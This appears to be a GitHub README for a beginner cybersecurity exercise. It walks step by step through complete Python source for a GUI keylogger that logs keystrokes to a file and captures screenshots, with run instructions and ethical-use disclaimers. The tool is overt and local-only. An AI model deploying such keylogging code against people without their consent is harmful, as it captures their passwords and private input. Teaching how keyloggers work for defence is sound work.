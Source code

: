 ### 💀🕶️ Black Phantom Logger

## ⚠️ Warning & Ethical Considerations
**🚨 This tool is meant for learning cybersecurity only!**
- Do **not** use this tool without proper authorization.
- Unauthorized use of keyloggers is **illegal and punishable** by law.
- The author **takes no responsibility** for any unethical or misuse use of this code.

🔴 **Use responsibly and ethically.**

##🛠️ Tools Used
For writing and running the Python script, I used:

Thonny IDE – A beginner-friendly Python environment, great for easy script execution and debugging.

## 📦 Required Python Libraries
Before running the keylogger, install the necessary libraries:


pip install pynput tkinter opencv-python pyautogui pillow
Libraries Explained:
pynput – Captures keystrokes in the background.

tkinter – Creates the GUI for our Black Phantom Logger.

opencv-python – Helps handle images (optional for additional features).

pyautogui – Captures screenshots.

PIL (pillow) – Supports image manipulation inside the GUI.

## 🚀 Project Overview
This is a simple keylogger with a dark hacker-themed GUI named Black Phantom Logger. It records keystrokes and saves them to a file. It also includes:

A graphical user interface (GUI) using Tkinter.

A dark "hacker-style" theme with a black and green aesthetic.

A button for starting and stopping the keylogger.

A logo of a hacker to enhance the simulation experience.

A feature to capture the screen as an extra functionality.

📜 Code Walkthrough
Let's break down the script step by step!

# 1️⃣ Importing Required Modules

import tkinter as tk
from tkinter import messagebox
from pynput.keyboard import Listener
import os
import pyautogui
from PIL import Image, ImageTk
tkinter – Creates the graphical interface.

pynput.keyboard.Listener – Monitors and records keystrokes.

os – Handles file operations.

pyautogui – Captures screenshots.

PIL.Image, ImageTk – Displays images in the GUI.

# 2️⃣ Creating the GUI (Graphical User Interface)

root = tk.Tk()
root.title("Black Phantom Logger")
root.geometry("400x400")
root.configure(bg="black")
tk.Tk() – Initializes the main window.

title("Black Phantom Logger") – Sets the program title.

geometry("400x400") – Defines the window size.

configure(bg="black") – Applies the dark hacker-style theme.

3️⃣ Adding a Hacker-Style Logo

logo = Image.open("hacker_logo.png")  # Make sure you have an image named hacker_logo.png
logo = logo.resize((100, 100))
logo = ImageTk.PhotoImage(logo)
logo_label = tk.Label(root, image=logo, bg="black")
logo_label.pack()
Loads a hacker-themed image to enhance the look.

Resizes the image and places it in the GUI.

4️⃣ Keystroke Logging Function

def log_keystrokes(key):
    key = str(key).replace("'", "")
    with open("keystrokes.txt", "a") as file:
        file.write(key + "\n")
Converts each pressed key into a string.

Saves the keystrokes into a text file (keystrokes.txt).

5️⃣ Screenshot Capture Function

def capture_screen():
    screenshot = pyautogui.screenshot()
    screenshot.save("screenshot.png")
    messagebox.showinfo("Screenshot", "Screenshot saved as screenshot.png")
Uses pyautogui.screenshot() to take a snapshot.

Saves the image as "screenshot.png".

Displays a confirmation message.

6️⃣ Start & Stop Buttons

def start_logger():
    global listener
    listener = Listener(on_press=log_keystrokes)
    listener.start()
    messagebox.showinfo("Logger", "Keylogger Started!")

def stop_logger():
    if listener:
        listener.stop()
        messagebox.showinfo("Logger", "Keylogger Stopped!")
start_logger() – Begins keylogging in the background.

stop_logger() – Stops the keylogger when needed.

7️⃣ Adding Buttons to GUI

start_button = tk.Button(root, text="Start Logging", command=start_logger, bg="green", fg="white")
stop_button = tk.Button(root, text="Stop Logging", command=stop_logger, bg="red", fg="white")
screenshot_button = tk.Button(root, text="Capture Screen", command=capture_screen, bg="blue", fg="white")

start_button.pack(pady=10)
stop_button.pack(pady=10)
screenshot_button.pack(pady=10)
Buttons added:

Start Logging (Green Button)

Stop Logging (Red Button)

Capture Screen (Blue Button)

8️⃣ Running the GUI

root.mainloop()
root.mainloop() keeps the window running.

### 🎭 Features & Hacker Simulation Experience
Dark Theme: A black & green color scheme for a hacker-like feel.

Hacker Logo: Enhances the interface's aesthetics.

Keylogging: Logs all keystrokes into a file.

Screen Capture: Takes a screenshot for additional monitoring.

### ⚠️ Warning & Ethical Considerations

🚨 This tool is meant for learning cybersecurity only!

Do not use this tool without proper authorization.

Unauthorized use of keyloggers is illegal and punishable by law.

The author takes no responsibility for any unethical use.

🔴 Use responsibly and ethically.

### 👨‍💻 How to Run the Keylogger
Install Thonny IDE (if not installed).

Download or clone this repository:

git clone (https://github.com/AhmedSalahHassanQatar/PRODIGY_CS_04)
cd black-phantom-logger

Install dependencies:
pip install pynput tkinter opencv-python pyautogui pillow
Run the script in Thonny or terminal:
python keylogger.py

📜 Final Words
This project is a basic yet powerful way to understand how keyloggers work in a cybersecurity research context. If you're a beginner, this is a great starting point for learning about ethical hacking, Python scripting, and GUI development.

🚀 Happy Learning, and Stay Ethical!
